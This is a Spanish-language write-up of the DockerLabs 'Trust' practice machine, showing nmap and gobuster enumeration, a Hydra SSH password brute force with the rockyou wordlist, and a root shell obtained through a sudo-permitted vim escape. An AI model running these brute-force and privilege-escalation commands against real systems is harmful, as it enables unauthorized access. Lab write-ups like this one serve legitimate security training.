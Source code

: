 ```yaml
---
title: Trust - DockerLabs
published: true
categories: DockerLabs
---
```

 
| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  | Super Fácil | ElPinguinoDeMario | 

## Contenidos
1. [Escaneo y Reconocimiento de puertos](#Escaneo-y-Reconocimiento-de-puertos)
2. [Enumeración Web](#Enumeración-Web)
3. [Ataque de fuerza bruta con Hydra](#Ataque-de-fuerza-bruta-con-Hydra)
4. [Intrusión y Escalada de privilegios](#Intrusión-y-Escalada-de-privilegios)


## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![Reconocimiento](https://github.com/romabri/WriteUps/assets/51706860/9374ba63-c786-4e08-ae44-c3672d159e86)

`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Busqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rapido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la version del servicio abirto
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que esta abierto el puerto 22 `SSH` y el puerto 80 `HTTP`

## Enumeración Web

Usamos `Gobuster` para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.20.10.5/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![web](https://github.com/romabri/WriteUps/assets/51706860/ce0df111-f0a7-4abc-8d00-955226c4aec8)

Vemos que nos encuentra un directorio llamado secret.php. Si accedemos a él, vemos lo siguiente:

![web2](https://github.com/romabri/WriteUps/assets/51706860/127749c8-2bba-4eaa-a83b-6a640b960bf4)

Aparece el nombre de Mario, por lo que probablemente sea un posible usaurio.


## Ataque de fuerza bruta con Hydra

Como tenemos un possible usuario, vamos hacer un ataque de fuerza bruta con Hydra al protocolo ssh de la siguiente forma:

`hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`
- `-l` - Para especificar el usaurio
- `-P` - Para especificar que diccionario de fuerza bruta usaremos
- `ssh://172.17.0.2` - Especificamos que queremos atentar contra el protocolo SSH de la IP victima


![att](https://github.com/romabri/WriteUps/assets/51706860/4ff3c53d-abe0-434e-b23f-1e162b9f3dce)

Como vemos, existe el usuario `mario` y la contraseña es `chocolate`.


## Intrusión y Escalada de privilegios

Ahora accedemos vía SSH 

`ssh mario@172.17.0.2`

Si hacemos el comando `sudo -l`, vemos que tenemos permisos para ejecutar como sudo el binario `VIM`

Para poder escalar privilegios con este binario, hacemos lo siguiente:

``sudo /usr/bin/vim -c ':!/bin/sh'`` 

Esto nos lanzará una terminal pero en modo `ROOT` y ya habremos terminado la máquina.

![imagen](https://github.com/romabri/WriteUps/assets/51706860/34672299-f455-4af2-bd6e-edb5bb059d46)
